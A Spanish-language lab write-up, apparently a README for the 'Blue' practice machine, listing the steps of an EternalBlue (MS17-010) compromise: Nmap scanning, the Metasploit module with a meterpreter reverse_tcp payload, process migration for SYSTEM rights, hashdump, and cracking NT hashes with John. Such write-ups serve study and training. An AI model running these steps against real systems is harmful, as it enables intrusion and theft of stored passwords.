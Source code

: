 # Máquina Blue

## Tareas realizadas
- Escaneo con Nmap para encontrar puertos abiertos y sus respectivos servicios. 
- Se encontró la vulnerabilidad de `MS17-010`. Mejor conocida como **EternalBlue**, el cual afecta servicios de SMB que se encuentran en equipos de windows.
- Esta vulnerabilidad se puede encontrar en las vulnerabilidades y exposiciones comunes (Common Vulnerabilities and Exposures) como `CVE-2017-0144`.
- Se hace uso de metasploit para explotar la vulnerabilidad  `(windows/smb/ms17_010_eternalblue)`
- Se usa el Payload  por defecto, el cual brinda un shell de meterpreter `(windows/meterpreter/reverse_tcp)`
- Se obtiene las contraseñas almacenadas y se procede a crackearlas con `John`


## Comandos utilizados (Metasploit y Meterpreter)

Buscar la vulnerabilidad en los módulos de metasploit 
> `search ms17-010`

Para comprobar nuestro nivel de acceso actual
> `getsystem`

> `getuid`

Para obtener una shell estando en meterpreter
> `shell`

Ver todos los procesos y sus respectivos PID
> `ps`

Escalar Privilegios a través de una migración del proceso. Se busca un proceso el cual tenga permisos de `NT AUTHORITY\SYSTEM`. Esto puede tomar varios intentos, los procesos de migración no son muy estables. Si esto falla, es posible que deba volver a ejecutar el proceso de conversión o reiniciar la máquina y comenzar de nuevo. Si esto sucede, intente con un proceso diferente la próxima vez.
> `migrate <PID>`

Obtener los hash de contraseña almacenados en la máquina.
> `hashdump`

Crackear contraseñas
> `john --format=nt --wordlist=<path-to-wordlist> <hash>`

Ubicación interesante (SAM File)
> `C:\Windows\System32\config`
